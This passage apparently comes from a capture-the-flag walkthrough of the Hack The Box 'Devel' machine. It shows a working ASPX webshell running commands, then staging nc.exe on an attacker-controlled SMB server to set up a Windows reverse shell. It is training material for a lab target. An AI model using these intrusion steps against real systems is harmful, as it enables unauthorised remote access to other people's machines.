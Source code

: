 Behold, our webshell is ready!

![executing `whoami` over the webshell](./images/whoami.png)

If we provide commands we can see their output after execution!

### Shelling out for a shell

I don't have much experience with Windows reverse shells. As such, I looked at the [writeup by the famous and almighty `0xdf`](https://0xdf.gitlab.io/2019/03/05/htb-devel.html#shell-as-web) to get inspiration for several possible approaches. I'll attempt the `nc.exe` approach here.

The `nc.exe` approach involves moving a Windows version of `netcat` onto the target, which we can then use to establish a reverse shell back to our machine.

```bash
$ locate nc.exe
/var/lib/plocate/plocate.db: No such file or directory

$ sudo updatedb

$ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

$ cp /usr/share/windows-resources/binaries/nc.exe .

$ ls -l
total 64
-rwxr-xr-x 1 kali kali  1400 Apr 19 12:43 cmd.aspx
-rwxr-xr-x 1 kali kali 59392 Apr 19 14:18 nc.exe
```

How do we get the file onto the target? We can set up a SMB server!

```bash
$ impacket-smbserver myshare .
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
